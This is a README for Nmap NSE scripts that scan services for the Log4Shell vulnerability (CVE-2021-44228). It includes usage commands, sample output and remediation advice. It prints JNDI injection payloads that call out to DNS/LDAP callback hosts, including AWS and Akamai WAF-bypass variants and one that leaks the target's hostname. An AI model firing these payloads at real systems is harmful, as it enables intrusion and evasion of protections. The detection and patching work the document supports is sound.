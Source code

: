 # nse-log4shell
CREDIT - https://github.com/Diverto/nse-log4shell

Nmap NSE scripts to check against log4shell or LogJam vulnerabilities (CVE-2021-44228).
NSE scripts check most popular exposed services on the Internet. It is basic script where you can customize payload.


### Examples

Note that NSE scripts will only issue the requests to the services. Nmap will not report vulnerable hosts, but you have to check DNS logs to determine vulnerability. If you do not specify payload manually, NSE scripts will use dnslog.cn by default. That means requests will be seen by dnslog.cn.

## Quick with help of dnslog.cn

Position to directory where these scripts are located and issue following commands (Nmap will retrieve dnslog.cn automatically).

On Linux:
```
cd nse-log4shell
nmap -sV -T4 -v --script=$PWD/ scanme.nmap.org
```

On Windows:
```
cd nse-log4shell
nmap -sV -T4 -v --script=%cd%/ scanme.nmap.org
```

## Payloads to consider

new patch bypass on v2.15.0 (CVE-2021-45046), thanks to @marcioalm ([tweet](https://twitter.com/marcioalm/status/1471740771581652995)):
```
${jndi:ldap://127.0.0.1#{{target}}.xxx.dnslog.cn:1389/a}
```

AWS bypass (thanks to @11xuxx - [tweet](https://twitter.com/11xuxx/status/1471826191724257285)):
```
${jnd${123%25ff:-${123%25ff:-i:}}ldap://mydogsbutt.com:1389/o}
```

Akamai bypass (thanks to @ozgur_bbh - [tweet](https://twitter.com/ozgur_bbh/status/1471803792572223493)):
```
${jndi${123%25ff:-}:ldap://HOST:PORT/a}
```

## Manual configuration

Windows Example (Thanks to @ZedFuzz) - note how to [escape the quotes](https://nmap.org/book/nse-usage.html#nse-args):
```
nmap -v --script=http-log4shell,ssh-log4shell,imap-log4shell "--script-args=log4shell.payload=\"${jndi:ldap://{{target}}.xxxx.dnslog.cn}\"" -T4 -n --script-timeout=1m scanme.nmap.org
```

### By help of logdns (custom DNS logging server)

Go to http://github.com/kost/logdns and get DNS server. Get domain and point to the somewhere where you have installed logdns:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.logdns.xxx}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```
### By help of dnslog.cn

Go to http://dnslog.cn/ and Get SubDomain. Replace your xxxx with your SubDomain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.dnslog.cn}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of burpcollaborator

Take your domain from Burp collaborator and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.burpcollaborator.net/diverto}"' -T4 -n -p0-65535 -sV --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of CanaryToken (https://canarytokens.org/generate#)

Take your Token from CanaryToken and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://x${hostName}.L4J.xxxx.canarytokens.com/a}"' -T4 -n -pssh,imap*,http* --script-timeout=1m MY.IPs.TO.SCAN
```

Thanks to @saintz666

## Recommended way

dnslog.cn have short sessions (around half an hour). There should be way to prolong the sesion to how long the scan takes. Also, sometimes DNS query happens much later than request received. Someone reported got DNS request hours after the request has been made.
As workaround, nmap NSE scripts retrieve session after each host scanned.

Therefore, currently, for best assurance it is to use custom DNS domain with tool like logdns:
https://github.com/kost/logdns

## Sample Output

```
nmap -T4 -v --script=$PWD/ scanme.nmap.org
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-15 12:37 CET
NSE: Loaded 5 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:37
Completed NSE at 12:37, 0.53s elapsed
Pre-scan script results:
| dnslog-cn:
|   Domain: 2t722h.dnslog.cn
|_  Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
Initiating Ping Scan at 12:37
Scanning scanme.nmap.org (45.33.32.156) [2 ports]
Completed Ping Scan at 12:37, 0.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:37
Completed Parallel DNS resolution of 1 host. at 12:37, 1.18s elapsed
Initiating Connect Scan at 12:37
Scanning scanme.nmap.org (45.33.32.156) [1000 ports]
Discovered open port 80/tcp on 45.33.32.156
Discovered open port 53/tcp on 45.33.32.156
Discovered open port 22/tcp on 45.33.32.156
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.00% done; ETC: 12:37 (0:00:16 remaining)
Discovered open port 9929/tcp on 45.33.32.156
Discovered open port 31337/tcp on 45.33.32.156
Completed Connect Scan at 12:37, 37.06s elapsed (1000 total ports)
NSE: Script scanning 45.33.32.156.
Initiating NSE at 12:37
Completed NSE at 12:37, 6.19s elapsed
Nmap scan report for scanme.nmap.org (45.33.32.156)
Host is up (0.18s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
9929/tcp  open  nping-echo
31337/tcp open  Elite

Host script results:
| dnslog-cn:
|   List of hosts responded: []
|   Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
|_  If list is not empty, check hosts as they are potentially vulnerable

NSE: Script Post-scanning.
Initiating NSE at 12:37
Completed NSE at 12:37, 0.50s elapsed
Post-scan script results:
| dnslog-cn:
|   List of hosts responded: []
|   Manually retrieve: curl --cookie "PHPSESSID=ss356ko502lsbftbl49d3g0777" http://dnslog.cn/getrecords.php
|_  If list is not empty, check hosts as they are potentially vulnerable
Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 46.11 seconds
```

# Solution/Fixes

List of best fixes and workarounds.

## Best fix

Best solution to protect from CVE-2021-44228:
update to log4j-2.16.0 or later.

Note that log4j-2.15.0-rc1 is not recomended any more since new vulnerabilities were found. Therefore, you should update to log4j-2.16.0 or later (thanks @ruppde).

Also, note that other recommendations like log4j2.formatMsgNoLookups set to true should be avoided.

## Best identification

It is best to identify log4shell vulnerability by looking at the local filesystem for log4j artifacts.

These NSE scripts should be used only for additional assurance. NSEs help in identifying vulnerable services, not vulnerable application. It can identify vulnerable application if it logs every request (including root /), not if vulnerability is hidden behind some login. You will need web scanner which crawls complete web for that.

You can check specific URI with following example:
```http-log4shell.url=/my/application/uri```

It will check via HTTP headers and cookie. If you need to check post/get forms. You should check http-spider-log4shell. Still, it is best to use web scanner with support for log4j.

Also note that DNS resolution with prefixes combination in a expression for log4j-core <= 2.7 seems not supported. So, testing with something like ```${java:os}``` could lead to false negatives.
Therefore, better to have few false positives than negatives.


